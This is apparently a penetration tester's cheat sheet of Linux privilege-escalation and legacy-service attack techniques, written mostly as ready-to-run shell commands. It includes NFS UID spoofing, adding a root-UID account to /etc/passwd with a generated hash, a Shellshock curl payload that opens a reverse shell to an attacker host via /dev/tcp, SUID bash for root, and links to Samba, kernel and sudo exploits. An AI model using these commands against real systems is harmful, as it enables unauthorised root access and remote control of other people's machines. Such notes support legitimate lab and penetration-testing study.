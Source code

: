 [MySQL User Defined Functions](https://redteamnation.com/mysql-user-defined-functions/)

check if user = root

```shell
cat /etc/mysql/mariadb.conf.d/50-server.cnf | grep user
```

NFS mount privilege

```shell
showmount -e <target ip>
# Export list for <target ip>:
# /home/tester    *
mkdir /tmp/tester
sudo mount -t nfs <target ip>:/home/tester /tmp/tester
find /tmp/tester -ls
# file permission, match uid
# drwxr-xr-x   2 1003     1003         1234 Feb 15 13:59 /tmp/Documents
sudo useradd tester01
sudo usermod -u 1003 tester01
sudo su tester01 -c bash
ls -la /tmp/tester
```

/etc/passwd

```shell
# generating password
openssl passwd -1 -salt 1234 <password>
# openssl passwd -1 -salt 1234 test1234
# $1$1234$LedaKjyvU08i2tNM5HGSg.
# create new user
# echo "test01:\$1\$1234\$LedaKjyvU08i2tNM5HGSg.:0:0:root:/root:/bin/bash" >> /etc/passwd
# su test01
```

ShellShock

```shell
# recon
nikto -url http://<target ip>/cgi-bin
nmap <target ip> -p <target port> --script=http-shellshock --script-args uri=/cgi-bin/home.cgi
# reverse shell
curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa; bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1; echo zzzz;'" http://<target ip>/cgi-bin/home.cgi | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}'
```

[Escaping Restricted Linux Shells](https://www.sans.org/blog/escaping-restricted-linux-shells/)

```
restricted: cannot specify `/' in command names
```

#### Chrome

--remote-debugging-port

```
chrome://inspect/
```

[CVE-2012-0056] memodipper

```
https://www.exploit-db.com/exploits/18411
```

```
exploit/linux/samba/trans2open
```

#### Tasks

```shell
chmod +s /bin/bash
bash -p
```

#### old machine

- Samba versions 2.2.0 to 2.2.8

```
trans2open
```

- Samba 3.0.24

```
https://github.com/mikaelkall/HackingAllTheThings/tree/master/exploit/linux/remote/CVE-2010-0926_smb_symlink_traversal
```

- Compiling the exploit binary sometimes has to be done on the same version of the machine.

- CVE-2020-1938 Ghostcat

- [CVE-2010-3904](https://www.exploit-db.com/exploits/15285) RDS privilege escalation exploit

- [sudo 1.8.31](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)
    - If possible, try to compile on the target machine.